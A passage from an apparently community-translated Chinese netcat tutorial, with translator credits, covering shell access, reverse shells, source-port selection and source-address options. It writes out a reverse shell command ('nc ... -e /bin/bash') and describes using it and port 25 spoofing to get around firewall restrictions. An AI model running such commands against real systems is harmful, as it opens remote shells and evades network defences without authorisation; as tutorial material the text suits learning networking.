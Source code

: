 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Client

$nc -n 172.31.100.7 1567

你会得到一个shell提示符在客户端
葱油拌面
葱油拌面
翻译于 10个月前

6人顶

顶 翻译的不错哦!
其它翻译版本(1)
反向shell

反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。

服务端

$nc -l 1567

在客户端，简单地告诉netcat在连接完成后，执行shell。

客户端

$nc 172.31.100.7 1567 -e /bin/bash

现在，什么是反向shell的特别之处呢
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。例如，我有一个专用IP地址为172.31.100.7，我使用代理服务器连接到外部网络。如果我想从网络外部访问 这台机器如1.2.3.4的shell，那么我会用反向外壳用于这一目的。
showme
showme
翻译于 10个月前

5人顶

顶 翻译的不错哦!
10. 指定源端口

假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。

服务器端

$nc -l 1567

客户端

$nc 172.31.100.7 1567 -p 25

使用1024以内的端口需要root权限。

该命令将在客户端开启25端口用于通讯，否则将使用随机端口。
Lax
Lax
翻译于 10个月前

5人顶

顶 翻译的不错哦!
11. 指定源地址

假设你的机器有多个地址，希望明确指定使用哪个地址用于外部数据通讯。我们可以在netcat中使用-s选项指定ip地址。
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~